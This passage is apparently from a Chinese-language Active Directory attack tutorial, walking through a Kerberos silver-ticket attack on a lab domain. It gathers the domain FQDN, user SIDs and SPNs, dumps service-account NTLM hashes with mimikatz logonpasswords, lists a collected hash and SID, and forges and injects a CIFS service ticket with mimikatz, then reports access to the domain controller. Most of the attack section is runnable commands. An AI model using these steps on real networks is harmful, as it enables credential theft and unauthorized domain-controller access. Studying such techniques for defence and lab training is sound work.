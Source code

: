 ```batch
# 获取域的FQDN
ipconfig /all
```

![image.png](https://img.ghostliner.top/yhDCUJ.png)

##### 2.3.1.3. SID

```batch
# 获取系统所有用户的SID
wmic useraccount get name,sid
```

![image.png](https://img.ghostliner.top/jkR8Uw.png)

##### 2.3.1.4. 服务账户的 NTLM 哈希

内置服务账户、由操作系统预定义，权限固定，适用于运行系统服务。
常见内置服务账户：
- LocalSystem：本地系统账户，最高权限
- Network Service：网络服务账户，较低权限
- Local Service：本地服务账户，最低权限
- 用于域中的计算机对象，通常以`$`结尾。例如：`DC$`（域控制器计算机账户）、`Workstation$`（工作站计算机账户）

```batch
# 查看服务账户的哈希
mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

![image.png](https://img.ghostliner.top/xWXeO8.png)

##### 2.3.1.5. 目标服务的主体名称

```batch
# 域管理员可以通过 setspn 查看和管理 SPN
setspn -L DC$
```

![image.png](https://img.ghostliner.top/XZmX6Q.png)

#### 2.3.2. 制作白银票据

##### 2.3.2.1. 已收集信息

```text
work.com # 域的FQDN 
Administrator # 管理员账号 
S-1-5-21-3644623682-4019055222-2476599189 # 域的SID
a3457f8fbad178153d6d2f177e3dec64 #服务账户的 NTLM 哈希 
cifs #服务的主体名称
```

##### 2.3.2.2. 伪造票据

```batch
# 清空当前Kerberos 票据
klist purge
# 制作白银票据
mimikatz "kerberos::golden /user:administrator /domain:work.com /sid:S-1-5-21-3644623682-4019055222-2476599189 /target:dc.work.com /rc4:a3457f8fbad178153d6d2f177e3dec64 /service:cifs /ptt" exit
```

##### 2.3.2.3. 验证

成功访问域控服务

![image.png](https://img.ghostliner.top/HstfZU.png)

